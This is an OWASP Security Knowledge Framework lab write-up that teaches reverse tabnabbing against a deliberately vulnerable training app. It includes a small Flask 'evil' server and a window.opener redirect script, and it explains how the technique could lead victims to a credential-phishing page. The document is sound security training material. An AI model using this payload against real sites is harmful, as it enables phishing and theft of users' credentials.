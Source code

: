 # KBID 266 - Tabnabbing

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:tabnabbing
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:tabnabbing
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to defev!](.gitbook/assets/logo.defdev.1608z.whtonblk.256.png)

## Reconnaissance

Basically every application that opens a link to a "\_blank" page is interesting to investigate.

```markup
<a href="example.com" taget="_blank">Follow this link</a>
```

Let's assume that the domain in the link of the following demo is under our control as a malicious attacker. When we click on the link 'Tab me" we find that a new page is opened on another browser tab. This is exactly the behaviour we are looking for!

![](.gitbook/assets/tab1%20%281%29.png)

If we were now to inspect the browsers source code of the target application, our assumptions are validated. We can perform a reverse tabnabbing phishing attack!

![](.gitbook/assets/code.png)

## Exploitation

### Step1

Now it is time to start our evil application to be able to serve our malicious script. We can easily achieve this by starting our own simple python flask app that could look like this:

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies.

```text
$ pip install flask
$ pip install request
$ python appname.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

### Step2

Now that the service is running we want to serve the malicious piece of javascript that is responsible for redirecting the parent tab to a new location. Below is what happens under the hood:

![](.gitbook/assets/tabnabbing_overview_with_link-1.png)

Now, let's add the following piece of javascript to the evil webserver we just created.

```javascript
<script>
    window.opener.location.replace("https://www.securityknowledgeframework.org")
</script>
```

### Step3

Now, after serving the evil web application open the target application and click on the link with the domain that is under our control. Notice how the parent tab immediately redirect itself to the web page of the security knowledge framework?

![](.gitbook/assets/tab2.png)

A visitor of an application that follows the link will be unexpectedly redirected to a phishing application. This evil application could look identical to the original application i.e. ask for the users credentials because his "session expired".

## Additional sources

[https://www.owasp.org/index.php/Reverse\_Tabnabbing](https://www.owasp.org/index.php/Reverse_Tabnabbing)

